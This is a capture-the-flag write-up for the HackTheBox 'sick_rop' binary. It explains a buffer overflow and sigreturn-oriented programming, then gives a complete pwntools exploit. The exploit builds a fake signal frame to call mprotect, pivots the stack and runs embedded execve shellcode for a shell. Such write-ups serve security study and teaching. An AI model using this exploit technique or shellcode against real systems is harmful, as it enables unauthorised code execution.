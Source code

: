 # SROP Challenge 
## Overview
**Note:** I did not create this challenge, it was made and published on HackTheBox.

Running checksec on the executable provides the following output:

```shell
iqimpz@ubuntu:~/$ checksec ./sick_rop
[*] '/root/htb/challenges/sick_rop/sick_rop'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The only protection in places is a non-executable stack. Which means we will not be writing shellcode to the stack to execute it.

## Code Analysis

Disassembly of section .text:

```
0000000000401000 <read>:
  401000:	b8 00 00 00 00       	mov    eax,0x0
  401005:	bf 00 00 00 00       	mov    edi,0x0
  40100a:	48 8b 74 24 08       	mov    rsi,QWORD PTR [rsp+0x8]
  40100f:	48 8b 54 24 10       	mov    rdx,QWORD PTR [rsp+0x10]
  401014:	0f 05                	syscall 
  401016:	c3                   	ret    

0000000000401017 <write>:
  401017:	b8 01 00 00 00       	mov    eax,0x1
  40101c:	bf 01 00 00 00       	mov    edi,0x1
  401021:	48 8b 74 24 08       	mov    rsi,QWORD PTR [rsp+0x8]
  401026:	48 8b 54 24 10       	mov    rdx,QWORD PTR [rsp+0x10]
  40102b:	0f 05                	syscall 
  40102d:	c3                   	ret    

000000000040102e <vuln>:
  40102e:	55                   	push   rbp
  40102f:	48 89 e5             	mov    rbp,rsp
  401032:	48 83 ec 20          	sub    rsp,0x20
  401036:	49 89 e2             	mov    r10,rsp
  401039:	68 00 03 00 00       	push   0x300
  40103e:	41 52                	push   r10
  401040:	e8 bb ff ff ff       	call   401000 <read>
  401045:	50                   	push   rax
  401046:	41 52                	push   r10
  401048:	e8 ca ff ff ff       	call   401017 <write>
  40104d:	c9                   	leave  
  40104e:	c3                   	ret    

000000000040104f <_start>:
  40104f:	e8 da ff ff ff       	call   40102e <vuln>
  401054:	eb f9                	jmp    40104f <_start>

```

So this is a very simple program with very few instructions. It runs in an infinite loop running the `vuln()` function. The instruction at `401032` allocates a buffer of **0x20** bytes on the stack. Next, `read()` is called to read **0x300** bytes into that buffer.  `vuln()` then calls `write()` to write the contents of that buffer back to stdin.

There is an obvious BOF when reading user input into the size **0x20** buffer. with the `syscall; ret` gadget, you may be thinking, just call `execve("/bin/sh")`. But there are no `pop rdi` gadgets so we wouldn't even be able to get our command string into the correct register. But there is another way!

## Exploit

All we need for SROP is a relativly large BOF, a `syscall; ret;` gadget, and a way to control RAX (We need RAX to have the value of `0xf` for the `rt_sigreturn` syscall).  We already have the first two, but there is no `pop rax` gadget. But there is another way to control RAX. The `read` syscall returns the number of bytes read in RAX. But we come across another problem. 

When sending our BOF payload, it will be alot more than 0xf bytes, so RAX will have the wrong value when we call `syscall`. But at the point that `vuln()` returns, we have control of the program thanks to our BOF, so we can jump directly to `vuln()` so that we can `read()` more data, then send a 15 byte payload (set RAX == 0xf), and then continue with SROP.

Since we would need a pointer to the string `/bin/sh`, we still can't call `execve("/bin/sh")`. And the stack isn't executable so we cannot place shellcode there, but we can call the `mprotect` syscall to map some memory as rwx, then pivot the stack to that location so that we can easily write shellcode to it then jump to it.

Below is our exploit:

```python
#!/usr/bin/python
import sys
from pwn import *
from time import sleep

elf = ELF('./sick_rop')
p = elf.process()
context.clear(arch='amd64')

vuln = 0x40102e
vuln_pointer = 0x4010d8								#you can get this with `find 0x40102e` in gdb-peda
offset = 40
writable = 0x401000
start = 0x40104f
read = 0x401000
syscall = 0x401014
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"		#shellcode from http://shell-storm.org/shellcode/files/shellcode-806.php

#gdb.attach(p)										#used for debugging.

payload = b'A'*offset + p64(vuln) + p64(syscall)	#Overflow buff, return to vuln to make another call to read to send payload2, return to syscall with eax set to 0xf from paylaod2


frame = SigreturnFrame()
frame.rax = 0xa 									#0xa is syscall number for mprotect
frame.rdi = writable								#text segment where we want to mark as rwx
frame.rsi = 0x1000 									#mark 0x1000 bytes as rwx
frame.rdx = 0x7 									#rwx
frame.rsp = vuln_pointer 							#pivots stack to the text segment that was just marked as rwx. Must use pointer to vuln instead of actual address of vuln, because passing an address to rsp doesn't allow it to be "resolved", this is why we set rsp to a pointer to vuln.
frame.rip = syscall

payload += bytes(frame)
p.send(payload)

payload2 = 'B'*14
sleep(0.5)
p.recvline()
p.sendline(payload2)								#this send 14+\n (15) bytes to read syscall. Read syscall returns bytes read, to the RAX register. So now 15 is in RAX and the next syscall will be sigreturn
sleep(0.5)

p.recvline()
payload3 = 'C'*(offset - 4) + 'DDDD'
payload3 += p64(0x4010e8)							#address of the shellcode, found with gdb
payload3 += shellcode
p.send(payload3)
p.interactive()
```

First we use the BOF to call `read()` so that we can send 15 bytes to set RAX to 0xf then return to our syscall gadget that then calls `rt_sigreturn`.

I used pwntools `SigreturnFrame()` to generate a fake signal frame and replaced the needed registers with the appropreate values to call mprotect, making 0x1000 bytes rwx starting at 0x41000. Then the sigreturn pivots the stack to that rwx memory. 

We then use the BOF Again to write shellcode to the new stack, then jump there and execute it for a shell!